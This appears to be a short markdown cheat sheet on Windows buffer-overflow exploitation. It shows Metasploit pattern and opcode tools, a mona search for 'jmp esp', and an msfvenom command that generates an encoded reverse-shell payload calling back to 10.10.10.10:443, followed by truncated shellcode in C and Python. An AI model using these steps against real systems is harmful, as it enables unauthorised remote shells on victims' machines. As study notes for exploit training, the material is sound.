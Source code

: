 # Cheatsheet - Buffer Overflows (BOF)
## Generating a String of Non-Repeating Characters
```bash
msf-pattern_create -l 1000 # print a string of 1000 non-repeating characters
msf-pattern_create -l 1000 -q 12345678 # get the number of bytes required to get to this offset
```

## Finding Opcodes
```bash
msf-nasm_shell # invoke msf-nasm_shell
jmp esp # give it an assembly instruction

# output
00000000 FFE4 jmp esp # the second column is the opcode that corresponds with your instruction
```

## Searching a Binary or DLL for Specific Assembly Instructions
Using Immunity Debugger
```bash
!mona find -s “\xff\xe4” -m “foo.dll” # search for “jmp esp” instruction
```

## Generating Shellcode
```bash
msfvenom -l payloads # list all payload options

# -p = payload: reverse shell
# EXITFUNC=thread = exit the thread (not process); avoids app crash
# -e = encode: to match target environment
# -b = bad characters: ASCII stuff (null, LF, CR, %, &, +, =)
# -f = (output) format: C 
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread \
-e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f c 

# output 
unsigned char buf[] =
"\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
"\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a"

# using the above shellcode in a Python script
shell = (
    "\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
    "\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a"
)
```

